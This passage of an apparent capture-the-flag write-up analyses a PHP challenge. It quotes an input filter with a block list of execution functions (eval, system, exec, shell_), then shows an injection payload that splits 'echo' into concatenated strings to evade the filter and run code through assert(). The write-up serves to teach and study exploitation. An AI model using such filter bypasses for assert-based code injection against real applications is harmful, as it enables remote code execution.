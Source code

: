 ```php
function is_clean($input){
	if (preg_match("/SESSION/i", $input)){//no seesion variable alteration
		bad_hacking_penalty();
		return false;
	}
	if (preg_match('/(base64_|eval|system|shell_|exec|php_)/i', $input)){//no coomand injection 
		bad_hacking_penalty();
		return false;
	}
	if (preg_match('/(file|echo|die|print)/i', $input)){//no file access
		bad_hacking_penalty();
		return false;
	}
	if (preg_match("/(or|\|)/", $input)){//Be brave use AND
		bad_hacking_penalty();
		return false;
	}
	if (preg_match('/(flag)/i', $input)){//don't take shortcuts
		bad_hacking_penalty();
		return false;
	}
	//clean input
	return true;
}
```

From those 2 codes, we can conclude that after our answer is being input, our input is checked by function is_clean. If our input is "clean", we can assert the value of real_ans with our answer. Now analyzing this code 

```php
assert("'$real_ans' === '$user_ans'")
```
Since assert function will evaluate the string inside that function, we can see that our input is directly checked with variable real_ans without any filter. Thus this could cause Remote Code Execution (RCE).

So let's try to give our input like this $user_ans 

```php
<answer>' and assert("ec"."ho 'test'") and '1
// <answer> is the real answer after evaluating the brainfuck code, so we still have to interpret that code.
```
If we insert above payload into our answer form, we should have our code to be like this 

```php
assert("
	'$real_ans' === '<answer>' and 
	assert("ec"."ho 'test'") 
	and '1'
	") 
and $_SESSION['count'] +=1 or (handle_invalid_captcha_ans() or $invalid_ans = 1);
```
